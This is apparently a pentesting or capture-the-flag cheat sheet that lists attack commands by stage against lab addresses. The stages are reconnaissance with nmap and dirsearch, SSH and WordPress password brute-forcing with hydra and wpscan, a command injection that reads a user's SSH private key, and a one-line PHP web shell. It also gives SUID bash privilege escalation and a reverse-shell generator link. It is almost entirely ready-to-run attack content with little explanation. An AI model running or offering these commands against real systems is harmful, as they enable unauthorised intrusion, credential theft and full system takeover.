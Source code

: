 #Reconnaissance

sudo nmap -sC -sV -v -p- 10.10.10.10 –min-rate 10000

dirsearch -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -u 10.10.10.10

#Getting Credentials

hydra -L users.txt -u -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ssh -s 2222 -V

mysql -h 10.10.70.250 -u root -p

wpscan -U username --url http://website.com/wordpress -P /usr/share/wordlists/rockyou.txt

;cat /home/user/.ssh/id_rsa to get the SSH key

ftp 10.10.10.10 

touch id.rsa 

ssh -i id.rsa user@10.10.10.10

#Getting Remote Command Execution

<?php echo passthru($_GET['cmd']); ?>

#Privledge Escalation

chmod +s /bin/bash 
cp /bin/bash /home/user/elevated-shell; chmod +s /home/user/elevated-shell

https://www.revshells.com/